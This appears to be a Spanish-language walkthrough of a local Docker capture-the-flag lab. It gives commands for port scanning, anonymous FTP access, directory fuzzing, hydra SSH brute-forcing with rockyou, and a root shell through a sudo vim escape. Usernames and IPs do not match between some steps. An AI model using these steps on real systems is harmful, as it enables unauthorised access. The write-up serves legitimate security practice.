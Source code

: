 Desplegamos el contenedor:

```Bash
bash auto_deploy.sh trust.tar
```

![Pasted image 20250131110723](https://github.com/user-attachments/assets/b1f1cd84-a5c4-4914-a8eb-4f53f3b71781)

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![Pasted image 20250131110822](https://github.com/user-attachments/assets/7176c822-982d-4a7a-a739-e3ceae288b94)

Nos conectamos con **FTP**:

```
ftp 172.17.0.2
```

![Pasted image 20250131110950](https://github.com/user-attachments/assets/7d69d7c3-99d5-4301-92f7-d49ddd20d4e8)

```
anonymous
```

![Pasted image 20250131111006](https://github.com/user-attachments/assets/ed0a8fda-cb02-4647-bba1-e667559ac2c6)

```
'blank'
```

![Pasted image 20250131111028](https://github.com/user-attachments/assets/a6d83050-c79d-4f36-aff1-be7bb7c23ed2)

```
ls
```

![Pasted image 20250131111046](https://github.com/user-attachments/assets/4a58769f-7bb5-4fc0-944f-acc85656b44d)

```
get chat-gonza.txt pendientes.txt
```

![Pasted image 20250131111122](https://github.com/user-attachments/assets/459a8287-3383-438c-baa1-f28ab27a9b90)

```
cat chat-gonza.txt
```

![Pasted image 20250131111157](https://github.com/user-attachments/assets/ca8585db-241d-4202-ac53-2479bd642adc)

```
cat pendientes.txt
```

![Pasted image 20250131111325](https://github.com/user-attachments/assets/33a8dc58-9d67-41cf-8d01-4a49f7ed0c1b)

Encontramos 3 nombres así que vamos a explorar un poco más.

Hacemos **Fuzzing**:

```
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,py,sh,txt
```

![Pasted image 20250131112740](https://github.com/user-attachments/assets/60246d48-8009-42dd-8143-88b7694ba0c6)

Nos metemos en la web:

![Pasted image 20250131111923](https://github.com/user-attachments/assets/ee67a67f-d53a-40c7-beb3-4553d0002189)

![Pasted image 20250131111936](https://github.com/user-attachments/assets/a70e3105-411b-426d-a2de-74d8d90ad78d)

Fuerza Bruta con **Hydra**:

```Bash
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.18.0.2
```

![Pasted image 20250131112040](https://github.com/user-attachments/assets/3c212e52-3257-4b00-bf4f-b81fdf6dfd2f)

Nos conectamos con **SSH**:

```Bash
ssh russoski@172.18.0.2
```

![Pasted image 20250131112159](https://github.com/user-attachments/assets/738719a0-9f37-4723-a3dd-344a7e25b8cd)

Elevamos privilegios:

```
sudo -l
```

![Pasted image 20250131112216](https://github.com/user-attachments/assets/e359d554-3b6c-4472-ba7b-b2de642f85f6)

```
sudo vim -c ':!/bin/bash'
```

![Pasted image 20250131112620](https://github.com/user-attachments/assets/1fc91096-29cd-4bc3-b3de-c7eb18b50ae4)

```
whoami
```

![Pasted image 20250131112638](https://github.com/user-attachments/assets/c785a0b2-f77f-43ef-9a86-d9037f1de625)
